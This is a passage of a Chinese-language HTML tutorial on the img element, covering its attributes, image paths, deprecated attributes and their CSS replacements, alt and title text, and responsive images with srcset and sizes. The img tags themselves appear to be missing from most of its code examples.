







# 图像处理

图像是网页内容的重要组成部分，用于展示信息、增强视觉效果和提升用户体验。`` 标签是 HTML 中最重要的媒体元素之一，正确使用图像属性和现代技术可以显著提升页面性能和用户体验。

**学习目标：**

- 掌握 `` 标签的完整属性体系和使用方法
- 理解响应式图像的实现原理和最佳实践
- 能够优化图像加载性能，提升页面体验
- 掌握图像的可访问性要求和 SEO 最佳实践
- 了解现代图像格式和工具链的使用

## 基本语法

`` 是个自闭合标签，`src` 属性指定图像文件的路径，`alt` 属性提供图像的替代文本（强烈建议始终提供）

```html

```

以下思维导图梳理了 `` 标签的完整属性体系，帮助建立全局认知：



属性速查表：

| 属性             | 作用             | 常见取值/说明                                                 | 说明                              |
| ---------------- | ---------------- | ------------------------------------------------------------- | --------------------------------- |
| `src`            | 图像源地址       | 相对路径或绝对 URL                                            | 必填                              |
| `alt`            | 替代文本         | 描述性文本                                                    | 必填（可访问性和 SEO）            |
| `title`          | 提示文字         | 描述性文本                                                    | 鼠标悬停时显示                    |
| `width`          | 图像宽度         | 像素值或百分比                                                | 建议 CSS 控制尺寸                 |
| `height`         | 图像高度         | 像素值或百分比                                                | 建议 CSS 控制尺寸                 |
| `loading`        | 懒加载           | `lazy`、`eager`                                               | 性能优化，默认 `eager`            |
| `decoding`       | 解码方式         | `async`、`sync`、`auto`                                       | 性能优化，默认 `auto`             |
| `srcset`         | 响应式图像源集   | 多个图像源和描述符（`1x`、`2x` 或 `400w`、`800w`）            | 响应式设计                        |
| `sizes`          | 响应式图像尺寸   | 媒体查询和尺寸描述                                            | 配合 `srcset` 使用                |
| `usemap`         | 图像映射         | `#map-name`                                                   | 图像热区链接                      |
| `ismap`          | 服务器端图像映射 | 布尔值                                                        | 较少使用                          |
| `crossorigin`    | 跨域设置         | `anonymous`、`use-credentials`                                | CORS 相关                         |
| `referrerpolicy` | 引荐来源策略     | `no-referrer`、`origin`、`strict-origin-when-cross-origin` 等 | 隐私控制                          |
| `fetchpriority`  | 获取优先级       | `high`、`low`、`auto`                                         | 性能优化，默认 `auto`             |
| `intrinsicsize`  | 固有尺寸         | 宽度 x 高度（如 `400x300`）                                   | 实验性，用于布局稳定性            |
| `importance`     | 资源重要性       | `high`、`low`、`auto`                                         | 已废弃，使用 `fetchpriority` 替代 |

::: warning

以下属性在 HTML5 中已废弃，应使用 CSS 替代：

- `border`：使用 CSS `border` 属性
- `align`：使用 CSS `vertical-align` 和 `float`
- `hspace`、`vspace`：使用 CSS `margin`

:::

## 图像路径与资源组织

在实际项目中，图像文件通常会存放在单独的资源目录中，例如 `images`、`assets/images` 等。合理组织路径可以避免「本地能显示、线上不显示」等问题。

- 相对路径：相对于当前 HTML 文件的位置，例如 `./images/logo.png`、`../images/bg.jpg`
- 绝对路径：从网站根目录开始，例如 `/images/logo.png`
- 完整 URL：包含协议和域名，例如 `https://example.com/images/logo.png`

常见推荐做法：

- 为静态资源单独建立目录，如 `/assets/images`、`/static/img`
- 线上环境使用 CDN 地址提供图像，例如 `https://cdn.example.com/img/...`
- 统一命名规范（小写、短横线分隔），方便管理和搜索

当图像来自其他站点时，如果需要在 `<canvas>` 中使用或读取像素信息，需要配合 `crossorigin` 和服务器端的 CORS 配置，否则会触发安全限制。

## 图像属性

### 图像尺寸（width、height）

`width` 和 `height` 属性用于设置图像的显示尺寸。在现代 Web 开发中，建议使用 CSS 来控制图像尺寸，但 HTML 属性仍有其用途

```html


<style>
  .responsive-img {
    width: 100%;
    max-width: 300px;
    height: auto; /* 保持宽高比 */
  }
</style>
```

**重要提示：**

1. **防止布局偏移（CLS）**：设置 `width` 和 `height` 属性可以帮助浏览器预留空间，减少累积布局偏移（Cumulative Layout Shift），提升页面性能评分。

```html
<!-- ✅ 推荐：设置宽高属性 -->

```

2. **响应式图像**：使用 CSS 实现响应式，同时保留 HTML 属性作为提示。

```html

```

3. **宽高比**：如果只设置宽度或高度，浏览器会按比例调整另一个维度。

### 图像边框（border）

::: danger

`border` 属性在 HTML5 中已废弃，应使用 CSS `border` 属性。

:::

**❌ 废弃方式：**

```html

```

**✅ 推荐方式：**

```html

<style>
  .bordered {
    border: 2px solid #333;
    border-radius: 4px;
  }
</style>
```

```html
<!DOCTYPE html>
<html lang="zh-CN">
  <head>
    <meta charset="UTF-8" />
    <meta name="viewport" content="width=device-width, initial-scale=1.0" />
    <title>设置主图和缩略图的大小并添加边框</title>
    <style>
      .image-container {
        max-width: 1100px;
        margin: 0 auto;
        padding: 20px;
        text-align: center;
      }

      .main-image {
        width: 350px;
        height: 350px;
        margin-bottom: 10px;
        border: none;
        border-radius: 4px;
      }

      .thumbnail-image {
        width: 50px;
        height: 50px;
        margin: 0 5px;
        border: 2px solid #333;
        border-radius: 4px;
        cursor: pointer;
        transition: border-color 0.2s;
      }

      .thumbnail-image:hover {
        border-color: #1890ff;
      }
    </style>
  </head>
  <body>
    <div class="image-container">
      <!-- 主图：无边框 -->
      
      <br />

      <!-- 缩略图：有边框 -->
      
      
      
    </div>
  </body>
</html>
```

### 图像间距（hspace、vspace）

::: danger

`hspace` 和 `vspace` 属性在 HTML5 中已废弃，应使用 CSS `margin` 属性。

:::

**❌ 废弃方式：**

```html

```

**✅ 推荐方式：**

```html

<style>
  .spaced {
    margin: 20px; /* 四个方向 */
    /* 或 */
    margin-left: 20px;
    margin-right: 20px;
    margin-top: 20px;
    margin-bottom: 20px;
  }
</style>
```

**文字环绕图像的间距示例：**

```html
<!DOCTYPE html>
<html lang="zh-CN">
  <head>
    <meta charset="UTF-8" />
    <title>图像与文字间距</title>
    <style>
      .article {
        max-width: 800px;
        margin: 0 auto;
      }
      .article img {
        float: left;
        margin-right: 20px;
        margin-bottom: 20px;
        max-width: 300px;
      }
    </style>
  </head>
  <body>
    <article class="article">
      
      <p>
        这是一段文字内容，文字会环绕在图像的右侧。通过 CSS margin
        属性，我们可以精确控制图像与文字之间的间距，使布局更加美观和协调。
      </p>
    </article>
  </body>
</html>
```

使用示例：


```html
<!DOCTYPE html>
<html lang="zh-CN">
  <head>
    <meta charset="UTF-8" />
    <meta name="viewport" content="width=device-width, initial-scale=1.0" />
    <title>设置图像的间距</title>
    <style>
      body {
        font-family: -apple-system, BlinkMacSystemFont, "Segoe UI", sans-serif;
      }

      .section {
        margin-bottom: 40px;
      }

      .section-title {
        font-size: 16px;
        margin-bottom: 10px;
        color: #333;
      }

      /* 基础图像样式 */
      .avatar {
        width: 100px;
        height: 100px;
        border: 2px solid #333;
        border-radius: 4px;
      }

      /* 不设置间距（使用默认 inline 间距） */
      .no-spacing .avatar {
        margin: 0;
      }

      /* 设置垂直间距 */
      .vertical-spacing .avatar {
        margin-top: 20px;
        margin-bottom: 20px;
      }

      /* 设置水平间距 */
      .horizontal-spacing .avatar {
        margin-left: 20px;
        margin-right: 20px;
      }

      /* 推荐方式：使用 Flexbox */
      .flex-spacing {
        display: flex;
        gap: 20px;
        align-items: center;
      }

      .flex-spacing .avatar {
        margin: 0;
      }
    </style>
  </head>
  <body>
    <h3>请选择您喜欢的头像：</h3>
    <hr />

    <!-- 方式 1：不设置间距 -->
    <div class="section">
      <div class="section-title">不设置间距（默认 inline 间距）</div>
      <div class="no-spacing">
        
        
        
        
      </div>
    </div>

    <!-- 方式 2：设置垂直间距 -->
    <div class="section">
      <div class="section-title">设置垂直间距（margin-top + margin-bottom）</div>
      <div class="vertical-spacing">
        
        
        
        
      </div>
    </div>

    <!-- 方式 3：设置水平间距 -->
    <div class="section">
      <div class="section-title">设置水平间距（margin-left + margin-right）</div>
      <div class="horizontal-spacing">
        
        
        
        
      </div>
    </div>

    <!-- 方式 4：推荐 - 使用 Flexbox -->
    <div class="section">
      <div class="section-title">✅ 推荐方式：使用 Flexbox + gap</div>
      <div class="flex-spacing">
        
        
        
        
      </div>
    </div>
  </body>
</html>
```

### 图片之间的间距

在 HTML 中 ``标签之间存在默认间距，这主要是由于 HTML 的默认样式以及浏览器渲染规则导致的

1. **行内元素特性**：`` 标签默认是行内元素（`display: inline`）。行内元素之间会存在一定的空白间隙，这个间隙是由 HTML 代码中的换行符、空格等空白字符引起的。即使你在代码中没有明显看到空格，换行本身也会被浏览器解析为一个空白字符。
2. **基线对齐**：行内元素默认会按照基线（baseline）对齐，这可能会导致元素之间出现一些额外的空间。

#### 解决方法

1. **去除 HTML 中的空白字符**：将 `` 标签之间的换行符和空格删除，这样就不会产生由空白字符引起的间距

```html
<div>
  不设置间距
</div>
```

2. **使用 CSS 的 `font-size: 0`**：将包含 `` 标签的父元素的 `font-size` 设置为 0，这样可以消除空白字符的影响。然后再为 `` 标签单独设置合适的 `font-size`（如果需要的话）

```html
<!DOCTYPE html>
<html lang="zh-CN">
  <head>
    <meta charset="UTF-8" />
    <title>设置图像的间距</title>
    <style>
      .avatar-list {
        font-size: 0; /* 消除空白字符影响 */
      }

      .avatar {
        width: 100px;
        height: 100px;
        border: 2px solid #333;
        border-radius: 4px;
      }

      .title {
        font-size: 16px;
        margin-bottom: 10px;
      }
    </style>
  </head>
  <body>
    <h3>请选择您喜欢的头像：</h3>
    <hr />

    <div class="avatar-list">
      <span class="title">不设置间距</span>
      
      
      
      
    </div>
  </body>
</html>
```

3. **✅ 推荐：使用 CSS 的 `display: flex`**：将父元素设置为 `display: flex`，这样可以更灵活地控制子元素的间距。

```html
<!DOCTYPE html>
<html lang="zh-CN">
  <head>
    <meta charset="UTF-8" />
    <title>设置图像的间距</title>
    <style>
      .img-container {
        display: flex;
        gap: 20px; /* 设置子元素之间的间距 */
      }
      .img-container img {
        width: 100px;
      }
    </style>
  </head>
  <body>
    <h3>请选择您喜欢的头像：</h3>
    <hr size="2" />
    <div class="img-container">
      不设置间距
      
      
      
      
    </div>
  </body>
</html>
```

### 图像相对于文字基准线的对齐方式

图像相对于文字基准线的对齐方式通过 `align` 属性进行设置。``

- **`top`**：将图片的顶部与相邻文本行的顶部对齐
- **`middle`**：将图片的中部与相邻文本行的基线对齐。基线是指文本行中字母的底部，对于大多数字体来说，基线位于文本行的中部偏下位置
- **`bottom`**：将图片的底部与相邻文本行的底部对齐
- **`left`**：将图片对齐到其容器的左侧，并使文本环绕在图片的右侧
- **`right`**：将图片对齐到其容器的右侧，并使文本环绕在图片的左侧


```html
<!DOCTYPE html>
<html>
  <head>
    <meta charset="utf-8" />
    <title>图像与文字的相对位置</title>
    <style>
      img {
        width: 100px;
      }

      span {
        font-size: 28px;
        color: #ff66cc;
      }
    </style>
  </head>
  <body>
    <div>
      <span>好看的微信头像</span>
      <!--图像的底端与文字的底端对齐-->
      
      <!--图像的中间与文本的基线对齐-->
      
      <!--图像的顶端与文字的基线对齐-->
      
      <!--图像的中间与同行中文字的中间对齐-->
      
      <!--图像的底端与文字的基线对齐-->
      
    </div>
  </body>
</html>
```

::: danger

在 HTML5 中，`` 标签的 `align` 属性已经被废弃。取而代之的是使用 CSS 来控制图片的对齐和布局。例如，可以使用 `vertical-align` 属性来实现垂直对齐，使用 `float` 属性来实现水平对齐和文本环绕效果

:::

**CSS 替代方法**：

- 垂直对齐：`vertical-align: top;`、`vertical-align: middle;`、`vertical-align: bottom;`
- 水平对齐和文本环绕：`float: left;`、`float: right;`

**兼容性和样式控制**：使用 CSS 来控制图片的对齐和布局可以提供更灵活的样式定制，并且可以更好地适应不同的屏幕和设备。此外，CSS 样式可以集中管理，便于维护和更新

### alt 属性（替代文本）

`alt` 属性是图像最重要的属性之一，用于提供图像的文本描述。它对于可访问性、SEO 和用户体验都至关重要。

**作用：**

1. **可访问性**：屏幕阅读器会读取 `alt` 文本，帮助视障用户理解图像内容
2. **图像加载失败**：当图像无法加载时，浏览器会显示 `alt` 文本
3. **SEO**：搜索引擎使用 `alt` 文本理解图像内容，有助于图片搜索排名

**最佳实践：**

```html
<!-- ✅ 信息性图像：提供有意义的描述 -->


<!-- ✅ 装饰性图像：使用空 alt -->


<!-- ✅ 功能性图像：描述功能 -->

<a href="/search">
  
</a>

<!-- ❌ 避免：冗余描述 -->


<!-- ❌ 避免：使用文件名 -->


<!-- ❌ 避免：过于冗长 -->

<!-- ✅ 改进 -->

```

**alt 文本编写指南：**

- **信息性图像**：简洁准确地描述图像内容和目的
- **装饰性图像**：使用空字符串 `alt=""`，并考虑添加 `role="presentation"` 或 `aria-hidden="true"`
- **功能性图像**：描述图像的功能而非外观
- **复杂图像**：提供简要描述，详细内容可在周围文本中说明
- **避免**：以"图片"、"图像"、"图标"等词开头（屏幕阅读器会自动说明）

### title 属性（提示文字）

`title` 属性用于提供额外的提示信息，当用户将鼠标悬停在图像上时会显示。

**使用场景：**

```html
<!-- 提供额外信息 -->


<!-- 版权信息 -->

```

**注意事项：**

1. **不要依赖 title**：`title` 属性在移动设备上不可用，不应作为主要信息源
2. **alt 优先**：始终提供有意义的 `alt` 属性，`title` 仅作为补充
3. **避免重复**：`title` 不应简单重复 `alt` 的内容

**alt 与 title 的区别：**

| 属性  | 用途     | 显示时机       | 可访问性 | 必需性 |
| ----- | -------- | -------------- | -------- | ------ |
| alt   | 替代文本 | 图像无法加载时 | 是       | 是     |
| title | 提示信息 | 鼠标悬停时     | 否       | 否     |

**完整示例：**

```html
<!DOCTYPE html>
<html lang="zh-CN">
  <head>
    <meta charset="UTF-8" />
    <title>图像 alt 和 title 示例</title>
  </head>
  <body>
    <!-- 信息性图像 -->
    <figure>
      
      <figcaption>美丽的日落景色</figcaption>
    </figure>

    <!-- 装饰性图像 -->
    <div class="header">
      
      <h1>网站标题</h1>
    </div>

    <!-- 功能性图像 -->
    <button type="button">
      
    </button>
  </body>
</html>
```

## 响应式图像

响应式图像是现代 Web 开发的重要特性，可以根据设备屏幕大小、像素密度等因素自动选择合适的图像。

<h4>030-responsive-image-srcset.html</h4>

```html
<!-- 来源：5-图像.md - 响应式图像 srcset/sizes -->
<!DOCTYPE html>
<html lang="zh-CN">
<head>
  <meta charset="UTF-8">
  <meta name="viewport" content="width=device-width, initial-scale=1.0">
  <title>响应式图像 - srcset 与 sizes</title>
  <style>
    * {
      margin: 0;
      padding: 0;
      box-sizing: border-box;
    }

    body {
      font-family: -apple-system, BlinkMacSystemFont, "Segoe UI", sans-serif;
      line-height: 1.6;
      color: #333;
      background: #f5f7fa;
      padding: 40px 20px;
    }

    .container {
      max-width: 1000px;
      margin: 0 auto;
    }

    h1 { text-align: center; color: #222; margin-bottom: 8px; font-size: 32px; }
    .subtitle { text-align: center; color: #666; margin-bottom: 36px; font-size: 15px; }

    /* 演示卡片 */
    .demo-card {
      background: white;
      border-radius: 12px;
      padding: 28px;
      margin-bottom: 24px;
      box-shadow: 0 2px 12px rgba(0,0,0,0.06);
    }

    .demo-card h3 {
      font-size: 18px;
      color: #333;
      margin-bottom: 12px;
      display: flex;
      align-items: center;
      gap: 8px;
    }

    .demo-card > p {
      color: #666;
      font-size: 14px;
      line-height: 1.7;
      margin-bottom: 16px;
    }

    /* 响应式图片容器 */
    .responsive-image-container {
      background: #f8f9fa;
      border-radius: 10px;
      padding: 20px;
      text-align: center;
    }

    .responsive-image-container img {
      max-width: 100%;
      height: auto;
      border-radius: 8px;
      box-shadow: 0 4px 16px rgba(0,0,0,0.1);
    }

    /* 代码块 */
    .code-block {
      background: #1e1e1e;
      color: #d4d4d4;
      padding: 16px 20px;
      border-radius: 8px;
      font-family: 'Monaco', 'Menlo', monospace;
      font-size: 13px;
      line-height: 1.7;
      overflow-x: auto;
      margin-top: 14px;
    }

    .tag { color: #569cd6; }
    .attr { color: #9cdcfe; }
    .value { color: #ce9178; }
    .comment { color: #6a9955; }

    /* 对比表格 */
    .compare-table {
      width: 100%;
      border-collapse: collapse;
      margin-top: 16px;
      font-size: 14px;
    }

    .compare-table th,
    .compare-table td {
      padding: 12px 16px;
      text-align: left;
      border-bottom: 1px solid #eee;
    }

    .compare-table th {
      background: #f8f9fa;
      font-weight: 600;
      color: #555;
      font-size: 13px;
    }

    /* 信息面板 */
    .info-panel {
      display: grid;
      grid-template-columns: repeat(auto-fit, minmax(240px, 1fr));
      gap: 16px;
      margin-top: 20px;
    }

    .info-item {
      background: linear-gradient(135deg, #e3f2fd 0%, #bbdefb 100%);
      padding: 18px;
      border-radius: 10px;
      border-left: 4px solid #0066cc;
    }

    .info-item h4 {
      color: #0066cc;
      font-size: 15px;
      margin-bottom: 6px;
    }

    .info-item p {
      font-size: 13px;
      color: #333;
      line-height: 1.6;
    }

    /* 当前选择状态 */
    .selection-status {
      background: linear-gradient(135deg, #d4edda 0%, #c3e6cb 100%);
      padding: 16px 20px;
      border-radius: 8px;
      margin-top: 16px;
      font-family: 'Monaco', monospace;
      font-size: 13px;
      color: #155724;
    }
  </style>
</head>
<body>

  <div class="container">
    <h1>📐 响应式图像</h1>
    <p class="subtitle">srcset + sizes：让浏览器自动选择最合适的图像</p>


    <!-- 演示 1：基于像素密度 (x 描述符) -->
    <div class="demo-card">
      <h3>🔍 方式一：基于像素密度（x 描述符）</h3>
      <p>
        使用 <strong>1x、2x、3x</strong> 等像素密度描述符，
        浏览器根据设备的 <code>devicePixelRatio</code>（DPR）自动选择。
        适用于固定尺寸的图像（如 Logo、图标、头像）。
      </p>

      <div class="responsive-image-container">
        
      </div>

      <div class="code-block">
<span class="tag">&lt;img</span>
  <span class="attr">src</span>=<span class="value">"image-1x.jpg"</span>
  <span class="attr">srcset</span>=<span class="value">"</span>
<span class="value">    image-1x.jpg   1x,</span>  <span class="comment">&lt;!-- 普通屏幕 --&gt;</span>
<span class="value">    image-2x.jpg   2x,</span>  <span class="comment">&lt;!-- Retina 屏幕 (2x) --&gt;</span>
<span class="value">    image-3x.jpg   3x</span>   <span class="comment">&lt;!-- 超高清屏幕 (3x) --&gt;</span>
<span class="value">  "</span>
  <span class="attr">alt</span>=<span class="value">"响应式图像"</span>
<span class="tag">/&gt;</span>
      </div>

      <div class="selection-status" id="densityStatus">
        💡 当前设备 DPR：<span id="dprValue">--</span> | 可能选择的图像：<span id="selectedImage">--</span>
      </div>
    </div>


    <!-- 演示 2：基于视口宽度 (w 描述符 + sizes) -->
    <div class="demo-card">
      <h3>📏 方式二：基于视口宽度（w 描述符 + sizes）</h3>
      <p>
        使用 <strong>w</strong> 宽度描述符配合 <strong>sizes</strong> 属性，
        浏览器根据当前视口宽度和图像渲染宽度计算最优资源。
        适用于<strong>流式布局</strong>中的大图（Hero Image、Banner 等）。
      </p>

      <div class="responsive-image-container">
        
      </div>

      <div class="code-block">
<span class="tag">&lt;img</span>
  <span class="attr">src</span>=<span class="value">"image-small.jpg"</span>
  <span class="attr">srcset</span>=<span class="value">"</span>
<span class="value">    image-400w.jpg  400w,</span>
<span class="value">    image-800w.jpg  800w,</span>
<span class="value">    image-1200w.jpg 1200w,</span>
<span class="value">    image-1600w.jpg 1600w</span>
<span class="value">  "</span>
  <span class="attr">sizes</span>=<span class="value">"</span>
<span class="value">    (max-width: 600px) 100vw,</span>   <span class="comment">&lt;!-- 手机：占满视口 --&gt;</span>
<span class="value">    (max-width: 1200px) 80vw,</span>  <span class="comment">&lt;!-- 平板：占 80% --&gt;</span>
<span class="value">    1200px</span>                      <span class="comment">&lt;!-- 桌面：最大 1200px --&gt;</span>
<span class="value">  "</span>
  <span class="attr">alt</span>=<span class="value">"响应式 Hero 图像"</span>
<span class="tag">/&gt;</span>
      </div>

      <div class="selection-status" id="viewportStatus">
        📱 当前视口宽度：<span id="viewportWidth">--</span>px |
        计算渲染宽度：<span id="renderWidth">--</span> |
        推荐加载：<span id="recommendedSrc">--</span>
      </div>
    </div>


    <!-- srcset vs picture 对比 -->
    <div class="demo-card">
